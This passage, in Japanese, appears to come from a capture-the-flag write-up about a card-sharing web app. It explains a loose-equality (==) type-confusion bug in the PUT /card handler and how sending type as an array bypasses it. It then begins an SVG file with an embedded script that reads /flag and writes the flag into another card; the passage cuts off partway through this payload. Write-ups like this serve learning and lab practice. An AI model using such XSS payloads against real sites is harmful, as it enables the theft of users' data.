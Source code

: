 こうしてSVGファイルが送れれば万事解決まで来ましたが、もう一つ問題があります。
一見すると、`POST /card`、`PUT /card`から好きなSVGファイルが送れるようには見えないのです。
実際、ソースコードを見ると、画像は`IMAGES`という配列の中からしか選べないように見えます。

```javascript
// POST /card
app.post("/card", (req, res) => {
    let { svg, content } = req.body;

    let type = "text/plain";
    let id = v4();

    if (svg === "text") {
        type = "text/plain";
        cards[id] = { type, content }
    } else {
        type = "image/svg+xml";
        cards[id] = { type, content: IMAGES[svg] }
    }

    res.redirect("/card?id=" + id);
});

// PUT /card
app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }

    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;

    res.send("ok");
});
```

しかし、よく見ると、`PUT /card`からは好きな画像が送れる可能性が残っています。
なぜかというと、`content`の方の条件演算子`... ? ... : ...`では`===`が使われているのに対して、`type`の方では`==`が使われているからです。
そのため、`type`を`"image/svg+xml"`と`===`の意味で等しくはないが、「等価」な値にできれば、好き勝手指定した`content`が使われ、それはSVG形式として認識されます。

残るはそのような値をどう作るかですが、配列が使えそうです。試しに`["image/svg+xml"] == "image/svg+xml"`を評価してみると`true`が返ってきたので、`type`に`["image/svg+xml"]`を指定すれば良さそうです。
そして、これをリクエストで指定するときは`key[]=value`の形式が使えます。

以上ですべての問題が解決したので、実行に移ります。

まず、適当なカードを2枚作成します。1枚は管理者ボットにアクセスさせるカード、もう1枚はフラグを書き込むカードにします。

次にスクリプトを含んだ以下の内容のSVGファイル`malicious.svg`を作成します。
```svg
<?xml version="1.0"?>
<svg xmlns="http://www.w3.org/2000/svg">
    <script>
        (async () => {
            const res = await fetch("/flag");
            const flag = await res.text();

            const body = new URLSearchParams();
            body.append("id", (2枚目のカードのID));
            body.append("type", "text/plain");
            body.append("content", flag);
            await fetch("/card", {
                method: "PUT",
                body,
```

[^1]: 説明のために条件を簡単にしています。